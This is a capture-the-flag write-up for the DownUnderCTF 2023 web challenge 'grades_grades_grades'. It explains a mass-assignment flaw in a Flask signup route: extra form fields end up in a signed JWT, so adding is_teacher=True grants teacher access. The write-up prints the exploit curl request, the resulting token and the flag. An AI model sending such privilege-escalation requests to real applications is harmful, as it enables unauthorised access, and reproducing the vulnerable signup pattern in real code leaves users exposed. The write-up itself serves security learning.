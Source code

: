 # DownUnderCTF 2023

## grades_grades_grades

> Sign up and see those grades :D! How well did you do this year's subject?
>
>  Author: donfran
>
> [`grades_grades_grades.tar.gz`](grades_grades_grades.tar.gz)

Tags: _web_

## Solution
For this challenge we get the source code for a web application where students can view their grades. Inspecting the code a bit we can find some interesting routes. The target seems to be `grades_flag` which requires a teacher role.

```python
@api.route('/grades_flag', methods=('GET',))
@requires_teacher
def flag():
    return render_template('flag.html', flag="FAKE{real_flag_is_on_the_server}", is_auth=True, is_teacher_role=True)
```

Then there is a `signup` route which is used to create a new account and an associated `jwt`. 

```python
@api.route('/signup', methods=('POST', 'GET'))
def signup():

    # make sure user isn't authenticated
    if is_teacher_role():
        return render_template('public.html', is_auth=True, is_teacher_role=True)
    elif is_authenticated():
        return render_template('public.html', is_auth=True)

    # get form data
    if request.method == 'POST':
        jwt_data = request.form.to_dict()
        jwt_cookie = current_app.auth.create_token(jwt_data)
        if is_teacher_role():
            response = make_response(redirect(url_for('api.index', is_auth=True, is_teacher_role=True)))
        else:
            response = make_response(redirect(url_for('api.index', is_auth=True)))

        response.set_cookie('auth_token', jwt_cookie, httponly=True)
        return response

    return render_template('signup.html')
```

The token itself is signed with a secret which we dont have. So cracking the secret could be one way but the challenge was marked `easy` therefore another way might be exist. 

```python
SECRET_KEY = secrets.token_hex(32)

def create_token(data):
    token = jwt.encode(data, SECRET_KEY, algorithm='HS256')
    return token
```

Lets see how a teacher roll is determined. So teachers have a `is_teacher` field. If we knew the secret, we could generate a token for a teacher roll by just providing `is_teacher=True`. 

```python
def is_teacher_role():
    # if user isn't authed at all
    if 'auth_token' not in request.cookies:
        return False
    token = request.cookies.get('auth_token')
    try:
        data = decode_token(token)
        if data.get('is_teacher', False):
            return True
    except jwt.DecodeError:
        return False
    return False
```

In this case, hovever, we can just let the server create a teacher roll. The `signup` route just takes our post parameters dictionary as a whole, so we can pass in whatever we like.

```bash
$ curl -X POST https://web-grades-grades-grades-c4627b227382.2023.ductf.dev/signup -H "Content-Type: application/x-www-form-urlencoded" --data-raw 'stu_num=test&stu_email=test%40test.de&password=test&is_teacher=True'
...
< set-cookie: auth_token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJzdHVfbnVtIjoidGVzdCIsInN0dV9lbWFpbCI6InRlc3RAdGVzdC5kZSIsInBhc3N3b3JkIjoidGVzdCIsImlzX3RlYWNoZXIiOiJUcnVlIn0.SMS66T5aPMseEaEHEEbNJP4NkBkwZQYKb2EgZpBmyHk; HttpOnly; Path=/
< content-length: 215
<
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/?is_auth=True">/?is_auth=True</a>. If not, click the link.
```

And there we have a signed token with teacher roll. Setting the token as `auth_token` and refreshing the page we are `teacher` now and get the flag.

Flag `DUCTF{Y0u_Kn0W_M4Ss_A5s1GnM3Nt_c890ne89c3}`